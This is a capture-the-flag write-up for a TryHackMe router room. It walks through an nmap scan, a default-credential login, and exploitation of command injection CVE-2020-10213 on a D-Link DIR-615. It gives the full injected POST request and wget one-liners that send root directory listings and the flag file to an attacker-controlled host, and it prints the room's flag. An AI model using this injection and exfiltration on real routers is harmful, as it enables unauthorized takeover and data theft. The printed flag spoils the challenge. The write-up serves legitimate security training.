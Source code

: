 # 🛜 Royal Router

* Solving [Royal Router](https://tryhackme.com/room/hfb1royalrouter)

## Finding Initial Vulnerability

1. Finding open Ports: `nmap -p- -sV $TARGET`
```
Nmap scan report for 10.10.106.109
Host is up (0.00016s latency).
Not shown: 65527 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
23/tcp    open  telnet?
80/tcp    open  http    DD-WRT milli_httpd
9999/tcp  open  abyss?
20443/tcp open  unknown
24433/tcp open  unknown
28080/tcp open  unknown
50628/tcp open  unknown
MAC Address: 02:77:0D:27:B5:F1 (Unknown)
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

2. Checking web Port(**80**) on Browser: `http://$TARGET`

3. You'll need the default Password for the Challenge: `https://www.lifewire.com/d-link-dir-615-default-password-2619092`
```
Username: admin
Password: (Blank)
```

4. Searching for Vulnerabilities: `dir-615 hack`

5. **CVE-2020-10213**: [Write-Up](https://tomorrowisnew.com/posts/hacking-the-dlink-dir-615-for-fun-and-no-profit-part-3-cve-2020-10213/)

## Exploitiong Device

1. Start Python Http Server on your system
```sh
python3 -m http.server
```

2. Go to: `http://$TARGET/do_wps.asp`

3. Enable on `PIN` and fill the box with `12345670` and Click `Connect`

4. Capture the Request above in **Burp Suite**

5. Add Your Payload to `wps_sta_enrollee_pin` parameter and send the payload.
```
POST /set_sta_enrollee_pin.cgi HTTP/1.1
Host: $TARGET
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Origin: http://$TARGET
Connection: keep-alive
Referer: http://$TARGET/do_wps.asp
Upgrade-Insecure-Requests: 1
Priority: u=0, i

html_response_page=do_wps_save.asp&html_response_return_page=do_wps.asp&reboot_type=none&wps_pin_radio=0&wps_sta_enrollee_pin=12345670`wget+http://$ATTACKBOX:8000/`
```
- **Make Sure to replace your IP with `$ATTACKBOX`**

6. You should see some Requests in **Python HTTP Server**

# Getting Flag

1. Finding Flag: `wget http://$ATTACKBOX:8000/$(ls /root/)`

2. Read Flag: `wget http://$ATTACKBOX:8000/$(cat /root/flag.txt)`
```
THM{EXFILTRATING_A_MIPS_ROUTER}
```

# References

- 
- [Cheat Sheet - 0xb0b](https://0xb0b.gitbook.io/writeups/tryhackme/2025/hackfinity-battle-vault#royal-router)
- [noobexploiter](https://noob3xploiter.medium.com/hacking-the-dlink-dir-615-for-fun-and-no-profit-a2f1689f9920)
- [Tomorrow is New](https://tomorrowisnew.com)